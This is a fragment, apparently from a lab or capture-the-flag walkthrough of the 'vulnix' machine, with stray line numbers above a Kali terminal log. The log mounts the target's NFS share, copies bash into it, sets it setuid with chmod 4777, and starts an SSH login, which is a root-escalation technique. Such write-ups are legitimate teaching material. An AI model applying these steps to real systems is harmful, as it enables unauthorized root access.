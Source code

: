     21  
    22  
    23  
    24  
    25  
    26  
    27  
    28  
    29  
    30  
    31  
    32  
    33  
    34  
    35  
    36  
    37  
    38  
    39  
    40  
    41  
    42  
    43  
    44  
    45  
    46  
    47  
    48  
    49  
    50  
    51  
    52  
    53  
    54  
    55  
    

|

    
    
    root@kali:/tmp# mount -t nfs 192.168.1.72:/home/vulnix /tmp/mnt  
    root@kali:/tmp# cd mnt  
    root@kali:/tmp/mnt# cp /bin/bash .  
    root@kali:/tmp/mnt# chmod 4777 bash  
    root@kali:/tmp/mnt# ls -al  
    total 1180  
    drwxr-x---  5 vulnix vulnix    4096 Oct 31 00:41 .  
    drwxrwxrwt 12 root   root      4096 Oct 31 00:39 ..  
    -rwsrwxrwx  1 root   root   1171072 Oct 31 00:41 bash  
    -rw-------  1 vulnix vulnix       0 Oct 31 00:31 .bash_history  
    -rw-r--r--  1 vulnix vulnix     220 Apr  3  2012 .bash_logout  
    -rw-r--r--  1 vulnix vulnix    3486 Apr  3  2012 .bashrc  
    drwx------  2 vulnix vulnix    4096 Oct 31 00:09 .cache  
    -rw-r--r--  1 vulnix vulnix     675 Apr  3  2012 .profile  
    drwxr-xr-x  2 vulnix vulnix    4096 Oct 31 00:09 .ssh  
    root@kali:/tmp/mnt# ssh vulnix@192.168.1.72  
    Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)  
      
